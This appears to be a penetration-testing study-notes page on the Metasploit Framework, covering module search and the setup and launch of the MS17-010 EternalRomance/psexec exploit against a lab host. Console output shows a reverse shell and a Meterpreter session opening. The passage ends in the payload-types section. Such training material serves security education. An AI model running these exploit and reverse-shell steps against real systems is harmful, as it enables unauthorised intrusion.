

- [Metasploit](#metasploit)
  - [Architecture](#architecture)
    - [Data, Documentation, Lib](#data-documentation-lib)
    - [Modules](#modules)
    - [Plugins](#plugins)
    - [Scripts](#scripts)
    - [Tools](#tools)
  - [MSFconsole](#msfconsole)
    - [Launching](#launching)
    - [Engagement Structure](#engagement-structure)
  - [Modules](#modules-1)
    - [Index No.](#index-no)
    - [Type](#type)
    - [OS](#os)
    - [Service](#service)
    - [Name](#name)
  - [Module Searching](#module-searching)
    - [help](#help)
    - [name](#name-1)
    - [specific](#specific)
  - [Module Usage](#module-usage)
    - [Info](#info)
    - [Setting the Target](#setting-the-target)
    - [Running the Exploit](#running-the-exploit)
  - [Targets](#targets)
    - [Selecting a Target](#selecting-a-target)
  - [Payloads](#payloads)
    - [Payload Types](#payload-types)
      - [Singles](#singles)
      - [Stagers](#stagers)
      - [Stages](#stages)
    - [Staged Payloads](#staged-payloads)
      - [Meterpreter Payload](#meterpreter-payload)
    - [Searching for Payloads](#searching-for-payloads)
      - [Specific Payloads](#specific-payloads)
    - [Selecting Payloads](#selecting-payloads)
    - [Using Payloads](#using-payloads)
  - [Encoders](#encoders)
    - [Selecting an Encoder](#selecting-an-encoder)
  - [Databases](#databases)
    - [Setting it up](#setting-it-up)
      - [PostgreSQL Status](#postgresql-status)
      - [Start PostgreSQL](#start-postgresql)
      - [MSF - Initiate a Database](#msf---initiate-a-database)
      - [MSF - Connect to the Initiated Database](#msf---connect-to-the-initiated-database)
      - [MSF - Reinitiate the Database](#msf---reinitiate-the-database)
      - [MSF - Database Options](#msf---database-options)
    - [Using the Database](#using-the-database)
      - [Workspaces](#workspaces)
    - [Importing Scan Results](#importing-scan-results)
      - [Stored nmap Scan](#stored-nmap-scan)
      - [Importing Scan Results](#importing-scan-results-1)
    - [Using nmap inside of MSFconsole](#using-nmap-inside-of-msfconsole)
    - [Data Backup](#data-backup)
      - [MSF - DB Export](#msf---db-export)
    - [Hosts](#hosts)
      - [Stored Hosts](#stored-hosts)
    - [Services](#services)
      - [MSF - Stored Services of Hosts](#msf---stored-services-of-hosts)
    - [Credentials](#credentials)
      - [MSF - Stored Credentials](#msf---stored-credentials)
    - [Loot](#loot)
      - [MSF - Stored Loot](#msf---stored-loot)
  - [Plugins](#plugins-1)
    - [Using Plugins](#using-plugins)
      - [MSF - Load Nessus](#msf---load-nessus)
    - [Installing new Plugins](#installing-new-plugins)
      - [Downloading MSF Plugins](#downloading-msf-plugins)
      - [MSF - Copying Plugin to MSF](#msf---copying-plugin-to-msf)
      - [MSF - Load Plugin](#msf---load-plugin)
  - [Mixins](#mixins)

---

# Metasploit

... is Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and moularized exploits. The Metasploit Framework includes a suite of tools that you can use to test security vulns, enumerate networks, execute attacks, and evade detection. At its core, the Metasploit Project is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development.

The modules mentioned are actual exploit PoCs that have already been developed and tested in the wild and integrated within the framework to provide pentesters with ease of access to different attack vectors for different platforms and services. Metasploit is not a jack of all trades but a swiss army knife with just enough tools to get you through the most common unpatched vulns.

## Architecture

### Data, Documentation, Lib

These are the base files for the framework. The data and lib are the functioning parts of the msfconsole interface, while the documentation folder contains all the technical details about the project.

### Modules

... are split into separate categories and contained in the following folders:

```bash
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/modules

auxiliary  encoders  evasion  exploits  nops  payloads  post
```

### Plugins

... offer the pentester more flexibility when using msfconsole since they can easy be manually or automatically loaded as needed to provide extra functionality and automation during your assessment.

```bash
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/plugins/

aggregator.rb      ips_filter.rb  openvas.rb           sounds.rb
alias.rb           komand.rb      pcap_log.rb          sqlmap.rb
auto_add_route.rb  lab.rb         request.rb           thread.rb
beholder.rb        libnotify.rb   rssfeed.rb           token_adduser.rb
db_credcollect.rb  msfd.rb        sample.rb            token_hunter.rb
db_tracker.rb      msgrpc.rb      session_notifier.rb  wiki.rb
event_tester.rb    nessus.rb      session_tagger.rb    wmap.rb
ffautoregen.rb     nexpose.rb     socket_logger.rb
```

### Scripts

Meterpreter functionality and other useful scripts.

```bash
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/scripts/

meterpreter  ps  resource  shell
```

### Tools

Command-line utilities that can be called directly from the msfconsole.

```bash
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/tools/

context  docs     hardware  modules   payloads
dev      exploit  memdump   password  recon
```

## MSFconsole

### Launching

```bash
d41y@htb[/htb]$ msfconsole
                                                  
                                              `:oDFo:`                            
                                           ./ymM0dayMmy/.                          
                                        -+dHJ5aGFyZGVyIQ==+-                    
                                    `:sm⏣~~Destroy.No.Data~~s:`                
                                 -+h2~~Maintain.No.Persistence~~h+-              
                             `:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`          
                          ./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.      
                       -++SecKCoin++e.AMd`       `.-://///+hbove.913.ElsMNh+-    
                      -~/.ssh/id_rsa.Des-                  `htN01UserWroteMe!-  
                      :dopeAW.No<nano>o                     :is:TЯiKC.sudo-.A:  
                      :we're.all.alike'`                     The.PFYroy.No.D7:  
                      :PLACEDRINKHERE!:                      yxp_cmdshell.Ab0:    
                      :msf>exploit -j.                       :Ns.BOB&ALICEes7:    
                      :---srwxrwx:-.`                        `MS146.52.No.Per:    
                      :<script>.Ac816/                        sENbove3101.404:    
                      :NT_AUTHORITY.Do                        `T:/shSYSTEM-.N:    
                      :09.14.2011.raid                       /STFU|wall.No.Pr:    
                      :hevnsntSurb025N.                      dNVRGOING2GIVUUP:    
                      :#OUTHOUSE-  -s:                       /corykennedyData:    
                      :$nmap -oS                              SSo.6178306Ence:    
                      :Awsm.da:                            /shMTl#beats3o.No.:    
                      :Ring0:                             `dDestRoyREXKC3ta/M:    
                      :23d:                               sSETEC.ASTRONOMYist:    
                       /-                        /yo-    .ence.N:(){ :|: & };:    
                                                 `:Shall.We.Play.A.Game?tron/    
                                                 ```-ooy.if1ghtf0r+ehUser5`    
                                               ..th3.H1V3.U2VjRFNN.jMh+.`          
                                              `MjM~~WE.ARE.se~~MMjMs              
                                               +~KANSAS.CITY's~-`                  
                                                J~HAKCERS~./.`                    
                                                .esc:wq!:`                        
                                                 +++ATH`                            
                                                  `


       =[ metasploit v6.1.9-dev                           ]
+ -- --=[ 2169 exploits - 1149 auxiliary - 398 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use sessions -1 to interact with the last opened session

msf6 > 
```

### Engagement Structure



## Modules

Syntax:

```bash
<No.> <type>/<os>/<service>/<name>
```

### Index No.

the no. tag will be displayed to select the exploit you want afterward during your searches.

### Type

... the type tag is the first level of segregation between Metasploit modules.

| Type | Description |
| ---- | ----------- |
| Auxiliary | scanning, fuzzing, sniffing, and admin capabilties; offer extra assistance and functionality |
| Encoders | ensure that payloads are intact to their destination |
| Exploits | defined as modules that exploit a vuln that will allow for the payload delivery |
| NOPs | keep the payload sizes consistent across exploit attempts |
| Payloads | code runs remotely and calls back to the attacker machine to establish a connection |
| Plugins | additional scripts can be integrated within an assessment with msfconsole and coexist |
| Post | wide array of modules to gather information, pivot deeper, etc. |

Note that when selecting a module to use for payload delivery, the ```use <no.>``` command can only be used with the following modules that can be used as initiators:

- Auxiliary
- Exploits
- Post

### OS

The OS tag specifies which OS and architecture the module was created for. Naturally, different OS require different code to be run to get the desired results.

### Service

The service tag refers to the vulnerable service that is running on the target machine. For some modules such as the auxiliary or post ones, this tag can refer to a more general activity such as gather, referring to the gathering of creds.

### Name

The name tag explains the actual action that can be performed using this module created for a specific purpose.

## Module Searching

### help

```bash
msf6 > help search

Usage: search [<options>] [<keywords>:<value>]

Prepending a value with '-' will exclude any matching results.
If no options or keywords are provided, cached results are displayed.

OPTIONS:
  -h                   Show this help information
  -o <file>            Send output to a file in csv format
  -S <string>          Regex pattern used to filter search results
  -u                   Use module if there is one result
  -s <search_column>   Sort the research results based on <search_column> in ascending order
  -r                   Reverse the search results order to descending order

Keywords:
  aka              :  Modules with a matching AKA (also-known-as) name
  author           :  Modules written by this author
  arch             :  Modules affecting this architecture
  bid              :  Modules with a matching Bugtraq ID
  cve              :  Modules with a matching CVE ID
  edb              :  Modules with a matching Exploit-DB ID
  check            :  Modules that support the 'check' method
  date             :  Modules with a matching disclosure date
  description      :  Modules with a matching description
  fullname         :  Modules with a matching full name
  mod_time         :  Modules with a matching modification date
  name             :  Modules with a matching descriptive name
  path             :  Modules with a matching path
  platform         :  Modules affecting this platform
  port             :  Modules with a matching port
  rank             :  Modules with a matching rank (Can be descriptive (ex: 'good') or numeric with comparison operators (ex: 'gte400'))
  ref              :  Modules with a matching ref
  reference        :  Modules with a matching reference
  target           :  Modules affecting this target
  type             :  Modules of a specific type (exploit, payload, auxiliary, encoder, evasion, post, or nop)

Supported search columns:
  rank             :  Sort modules by their exploitabilty rank
  date             :  Sort modules by their disclosure date. Alias for disclosure_date
  disclosure_date  :  Sort modules by their disclosure date
  name             :  Sort modules by their name
  type             :  Sort modules by their type
  check            :  Sort modules by whether or not they have a check method

Examples:
  search cve:2009 type:exploit
  search cve:2009 type:exploit platform:-linux
  search cve:2009 -s name
  search type:exploit -s type -r
```

### name

```bash
msf6 > search eternalromance

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution


msf6 > search eternalromance type:exploit

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

### specific

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxylogon_rce    2021-03-02       excellent  Yes    Microsoft Exchange ProxyLogon RCE
   1  exploit/windows/http/exchange_proxyshell_rce    2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE
   2  exploit/windows/http/sharepoint_unsafe_control  2021-05-11       excellent  Yes    Microsoft SharePoint Unsafe Control and ViewState RCE
```

## Module Usage

Within the interactive modules, there are several options you can specify. These are used to adapt the Metasploit module to the given environment. To check which options are needed to be set before the exploit can be sent to the target host, you can use the ```show options``` command. Everything required to be set before the exploitation can occur will have a ```Yes``` under the ```Required``` column.

```bash
<SNIP>

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   
   
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec): 

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                                                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

### Info

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > info

       Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
     Module: exploit/windows/smb/ms17_010_psexec
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2017-03-14

Provided by:
  sleepya
  zerosum0x0
  Shadow Brokers
  Equation Group

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   PowerShell
  2   Native upload
  3   MOF upload

Check supported:
  Yes

Basic options:
  Name                  Current Setting                          Required  Description
  ----                  ---------------                          --------  -----------
  DBGTRACE              false                                    yes       Show extra debug trace info
  LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
  NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
  NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                        rdlists/named_pipes.txt
  RHOSTS                                                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                                                           wiki/Using-Metasploit
  RPORT                 445                                      yes       The Target port (TCP)
  SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
  SERVICE_DISPLAY_NAME                                           no        The service display name
  SERVICE_NAME                                                   no        The service name
  SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a nor
                                                                           mal read/write folder share
  SMBDomain             .                                        no        The Windows domain to use for authentication
  SMBPass                                                        no        The password for the specified username
  SMBUser                                                        no        The username to authenticate as

Payload information:
  Space: 3072

Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to 
  achieve a write-what-where primitive. This will then be used to 
  overwrite the connection session information with as an 
  Administrator session. From there, the normal psexec payload code 
  execution is done. Exploits a type confusion between Transaction and 
  WriteAndX requests and a race condition in Transaction requests, as 
  seen in the EternalRomance, EternalChampion, and EternalSynergy 
  exploits. This exploit chain is more reliable than the EternalBlue 
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

### Setting the Target

You can use ```set``` or ```setg``` (_specifies options selected until the program is restarted_).

```bash
sf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

### Running the Exploit

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter> shell

C:\Windows\system32>
```

## Targets

... are unique OS identifiers taken from the versions of those specific OS which adapt the selected exploit module to run on that particular version of the OS. The ```show targets``` command issued within an exploit module view will display all available vulnerable targets for that specific exploit, while issuing the same command in the root menu, outside of any selected exploit module, will let you know that you need to select an exploit module first.

```bash
msf6 > show targets

[-] No exploit module selected.

...

msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

### Selecting a Target

If you want to find out more about a specific module and what the vuln behind it does, you can use the ```info``` command.

```bash
msf6 exploit(windows/browser/ie_execcommand_uaf) > info

       Name: MS12-063 Microsoft Internet Explorer execCommand Use-After-Free Vulnerability 
     Module: exploit/windows/browser/ie_execcommand_uaf
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Good
  Disclosed: 2012-09-14

Provided by:
  unknown
  eromang
  binjo
  sinn3r <sinn3r@metasploit.com>
  juan vazquez <juan.vazquez@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   IE 7 on Windows XP SP3
  2   IE 8 on Windows XP SP3
  3   IE 7 on Windows Vista
  4   IE 8 on Windows Vista
  5   IE 8 on Windows 7
  6   IE 9 on Windows 7

Check supported:
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  OBFUSCATE  false            no        Enable JavaScript obfuscation
  SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL for incoming connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                     no        The URI to use for this exploit (default is random)

Payload information:

Description:
  This module exploits a vulnerability found in Microsoft Internet 
  Explorer (MSIE). When rendering an HTML page, the CMshtmlEd object 
  gets deleted in an unexpected manner, but the same memory is reused 
  again later in the CMshtmlEd::Exec() function, leading to a 
  use-after-free condition. Please note that this vulnerability has 
  been exploited since Sep 14, 2012. Also, note that 
  presently, this module has some target dependencies for the ROP 
  chain to be valid. For WinXP SP3 with IE8, msvcrt must be present 
  (as it is by default). For Vista or Win7 with IE8, or Win7 with IE9, 
  JRE 1.6.x or below must be installed (which is often the case).

References:
  https://cvedetails.com/cve/CVE-2012-4969/
  OSVDB (85532)
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2012/MS12-063
  http://technet.microsoft.com/en-us/security/advisory/2757760
  http://eromang.zataz.com/2012/09/16/zero-day-season-is-really-not-over-yet/
```

Looking at the description, you can get a general idea of what this exploit will accomplish for you. Keeping this in mind, you would next want to check which versions are vulnerable to this exploit.

```bash
msf6 exploit(windows/browser/ie_execcommand_uaf) > options

Module options (exploit/windows/browser/ie_execcommand_uaf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   OBFUSCATE  false            no        Enable JavaScript obfuscation
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7
```

You see options for both different versions of IE and various Windows versions. Leaving the selection to ```Automatic``` will let msfconsole know that it needs to perform service detection on the given target before launching a successful attack.

If you, however, know what versions are running on your target, you can use the ```set target <index no.>``` command to pick a target from the list.

```bash
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7


msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6

target => 6
```

## Payloads

A payload in Metasploit refers to a module that aids the exploit module in returning a shell to the attacker. The payloads are sent together with the exploit itself to bypass standard functioning procedures of the vulnerable service and then run on the target OS to typically return a reverse connection to the attacker and establish a foothold.

There are three different types of payloads in Metasploit: Singles, Stagers, and Stages.

### Payload Types

#### Singles

... contain the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. However, some exploits will not support the resulting size of these payloads as they can get quite large. Singles are self-contained payloads. They are the sole object sent and executed on the target system, getting you a result immediately after running. A Single payload can be as simple as adding a user to the target system or booting up a process.

#### Stagers

... work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.

#### Stages

... are payload components that are downloaded by stager's modules. The various payload Stages provide advanced features with no size limits, such as Meterpreter, VNC injection, and others. Payload stages automatically use middle stagers.

### Staged Payloads

A staged payload is an exploitation process that is modularized and functionally separated to help segregate the different functions it accomplishes into different code blocks, each completing its objective individually but working on chaining the attack together. This will ultimately grant an attacker remote access to the target machine if all the stages work correctly.

```bash
msf6 > show payloads

<SNIP>

535  windows/x64/meterpreter/bind_ipv6_tcp                                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
536  windows/x64/meterpreter/bind_ipv6_tcp_uuid                           normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
537  windows/x64/meterpreter/bind_named_pipe                              normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
538  windows/x64/meterpreter/bind_tcp                                     normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
539  windows/x64/meterpreter/bind_tcp_rc4                                 normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
540  windows/x64/meterpreter/bind_tcp_uuid                                normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
541  windows/x64/meterpreter/reverse_http                                 normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
542  windows/x64/meterpreter/reverse_https                                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
543  windows/x64/meterpreter/reverse_named_pipe                           normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
544  windows/x64/meterpreter/reverse_tcp                                  normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
545  windows/x64/meterpreter/reverse_tcp_rc4                              normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
546  windows/x64/meterpreter/reverse_tcp_uuid                             normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
547  windows/x64/meterpreter/reverse_winhttp                              normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
548  windows/x64/meterpreter/reverse_winhttps                             normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)

<SNIP>
```

#### Meterpreter Payload

... is a specific type of multi-faceted payload that uses DLL injection to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques. In addition, scripts and plugins can be loaded and unloaded dynamically as required.

